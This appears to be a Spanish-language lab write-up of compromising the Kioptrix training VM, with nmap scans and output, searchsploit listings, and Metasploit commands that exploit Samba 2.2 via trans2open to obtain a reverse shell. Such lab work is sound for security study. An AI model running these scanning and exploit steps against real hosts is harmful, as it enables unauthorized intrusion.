 # Cómo he vulnerando la máquina Kioptix 

### Primero hice un reconicimiento de la red en busca de la IP de la máquina virtual (siendo que únicamente conozco la MAC y la red padre):

sudo netdiscover

nmap -sn 10.0.0.0/19

### Obtengo la IP de la máquina a atacar:

10.0.4.10

### Seguidamente hice un nmap -sV en busqueda de puertos abiertos junto al servicio que usa y su versión:

```ismael@ismael-VirtualBox:~$ nmap -sV 10.0.4.10
Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-17 16:46 CET
Nmap scan report for 10.0.4.10
Host is up (0.00057s latency).
Not shown: 994 closed ports
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
32768/tcp open  status      1 (RPC #100024)
```

### Analizo con metasploit los servicios de la máquina atacada (solo mostraré los outputs más interesantes)
```
searchsploit OpenSSH 2.9p2

OpenSSH 2.3 < 7.7 - Username Enumeration                                                                                                             | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                                                       | linux/remote/45210.py
OpenSSH < 6.6 SFTP (x64) - Command Execution                                                                                                         | linux_x86-64/remote/45000.c
OpenSSH < 6.6 SFTP - Command Execution                                                                                                               | linux/remote/45001.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation                                                 | linux/local/40962.txt
```
```
searchsploit Apache 1.3.20

pache + PHP < 5.3.12 / < 5.4.2 - Remote Code Execution + Scanner                                                                                    | php/remote/29316.py
Apache 1.3.20 (Win32) - 'PHP.exe' Remote File Disclosure                                                                                             | windows/remote/21204.txt
Apache 1.3.6/1.3.9/1.3.11/1.3.12/1.3.20 - Root Directory Access                                                                                      | windows/remote/19975.pl
```
```
searchsploit rcp
```

### Ya que nmap no nos ha dado la versión de samba la busqué yo mismo utilizando un scanner de versiones de samba:
```
msfconsole
search scanner/smb
use auxiliary/scanner/smb/smb_version
show options
set RHOSTS 10.0.4.10
run
```

### Obtuve de resultado que se está usando la version de samba 2.2.1a, aunque buscando directamente en metasploit no existe una vulnerabilidad para esta versión, por lo que busqué para la versión 2.2 y encontré este que me da una reverse shell: exploit/linux/samba/trans2open , y usé la payload payload/linux/x86/shell/reverse_tcp:
```
search samba 2.2
use exploit/linux/samba/trans2open
show payloads
set PAYLOAD payload/linux/x86/shell/reverse_tcp
set RHOSTS 10.0.4.10
run
```

### (La demonstración de que realmente obtuve acceso a la máquina está junto a este fichero)